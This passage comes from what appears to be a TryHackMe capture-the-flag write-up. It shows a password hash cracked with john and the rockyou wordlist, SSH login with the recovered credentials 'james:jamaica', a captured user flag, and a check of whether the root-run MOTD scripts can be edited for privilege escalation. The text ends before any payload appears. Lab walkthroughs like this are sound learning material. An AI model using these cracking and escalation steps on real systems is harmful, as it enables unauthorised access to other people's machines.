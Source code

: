 We can crack it using john:

```
echo 'james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1' > hash.txt
```

```
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

jamaica          (james)
```

We got credentials, let's go into ssh:

```
james:jamaica
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407141902.png)

```
james@osboxes:~$ cat user.txt
7e37c84a66cc40b1c6bf700d08d28c20
```

We got a `Note_to_james.txt` file:

```
james@osboxes:~$ cat Note-To-James.txt
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it?

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :)

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
```

The `/etc/update-motd.d/` directory contains the scripts that generate the MOTD that's displayed on the ssh login, we can check if we are actually able to modify that and if root owns this:

```
ls -ld /etc/update-motd.d/
ls -l /etc/update-motd.d/
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407142343.png)
